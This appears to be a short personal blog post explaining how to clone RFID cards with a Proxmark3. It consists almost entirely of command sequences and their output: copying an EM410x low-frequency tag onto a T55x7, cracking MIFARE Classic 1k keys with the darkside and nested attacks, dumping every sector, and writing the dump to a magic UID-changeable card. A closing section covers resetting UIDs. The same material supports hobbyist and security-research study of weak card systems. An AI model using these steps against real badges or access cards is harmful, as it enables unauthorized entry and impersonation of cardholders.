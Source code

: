 ```yaml
---
layout: post 
title: How to clone RFID cards 如何复制RFID卡
tags:
- rfid
---
```


Tool used: Proxmark3 with [野马无疆PM3 Proxmark3 RFID ICID读卡 全加密](https://item.taobao.com/item.htm?spm=a230r.7195193.1997079397.9.hb2yGL&id=556716910562&abbucket=9)
useful links:
 - https://github.com/Proxmark/proxmark3/wiki/commands
 - https://zhuanlan.zhihu.com/p/29661557
 - http://www.proxmark.org/forum/viewtopic.php?id=2554

## How to clone a low frequence (125KHZ) RFID card
```
proxmark3> lf search
Reading 30000 bytes from device memory

Data fetched
Samples @ 8 bits/smpl, decimation 1:1
NOTE: some demods output possible binary
  if it finds something that looks like a tag
False Positives ARE possible


Checking for known tags:

EM410x pattern found:

EM TAG ID      : ***********
Unique TAG ID  : ***********

Valid EM410x ID Found!

proxmark3> lf em em410xwrite <EM TAG ID> 1
Writing T55x7 tag with UID 0x*********** (clock rate: 64)
#db# Started writing T55x7 tag ...
#db# Clock rate: 64
#db# Tag T55x7 written with 0xff82345234

```

## How to clone a high frequence card
```
proxmark3> hf search

 UID : xx xx xx xx
ATQA : xx xx
 SAK : xx [2]
TYPE : NXP MIFARE CLASSIC 1k | Plus 2k SL1
proprietary non iso14443-4 card found, RATS not supported
Answers to chinese magic backdoor commands: NO

Valid ISO14443A Tag Found - Quiting Search

proxmark3> hf mf mifare
...
parity is all zero,try special attack!just wait for few more seconds...
Found valid key:ffffffffffff 

proxmark3> hf mf nested 1 0 A ffffffffffff d
Testing known keys. Sector count=16
nested...
-----------------------------------------------
Iterations count: 0


|---|----------------|---|----------------|---|
|sec|key A           |res|key B           |res|
|---|----------------|---|----------------|---|
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|001|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|002|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|003|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|004|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|005|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|006|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|007|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|008|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|009|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|010|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|011|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|012|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|013|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|014|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|015|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|---|----------------|---|----------------|---|
Printing keys to binary file dumpkeys.bin...

proxmark3> hf mf dump 1
...
Successfully read block  2 of sector 15.
#db# READ BLOCK FINISHED       
Successfully read block  3 of sector 15.
Dumped 64 blocks (1024 bytes) to file dumpdata.bin

proxmark3> script run dumptoemul.lua

# with blank UID card
proxmark3> hf mf cload <uid>
Loaded from file: <uid>.eml
```

### reset UID 

Usage:  hf mf csetuid <UID 8 hex symbols> <w>
sample:  hf mf csetuid 01020304 w
Set block data for magic Chinese card (only works with!!!)
If you want wipe card then add 'w' into command lin
copied from: http://www.proxmark.org/forum/viewtopic.php?id=2015
